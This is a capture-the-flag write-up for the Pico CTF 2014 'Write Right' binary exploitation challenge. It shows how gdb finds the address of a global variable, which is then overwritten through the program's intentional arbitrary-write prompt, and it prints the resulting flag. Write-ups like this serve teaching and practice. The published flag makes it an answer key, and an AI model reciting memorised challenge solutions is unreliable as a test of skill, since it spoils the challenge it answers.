 # Pico CTF 2014 : Write Right

**Category:** Binary Exploitation
**Points:** 50
**Description:**

>Can you change the secret? The binary can be found at /home/write_right/ on the shell server. The source can be found [here](write_right.c).

**Hint:**
>You will want to find the memory address of the secret.

## Write-up

True to the hint, we need to find the address of `secret`. We can do this using
gdb.
```
/home/write_right$ gdb -q ./write_right
Reading symbols from ./write_right...(no debugging symbols found)...done.
(gdb) info addr secret
Symbol "secret" is at 0x804a03c in a file compiled without debugging.
(gdb) quit
```
Now that we have found the address of `secret`, we need a value to fill it
with. From the source we see these lines:
```
if (secret == 0x1337beef){
    printf("Woah! You changed my secret!\n");
    printf("I guess this means you get a flag now...\n");
```

Now that we know what to change `secret` to.
```
/home/write_right$ ./write_right
Welcome! I will grant you one arbitrary write!
Where do you want to write to? 0x804a03c
Okay! What do you want to write there? 1337beef
Writing 0x1337beef to 0x804a03c...
Value written!
Woah! You changed my secret!
I guess this means you get a flag now...
arbitrary_write_is_always_right
```

## Other write-ups and resources

* <https://ctf-team.vulnhub.com/picoctf-2014-write_right/>
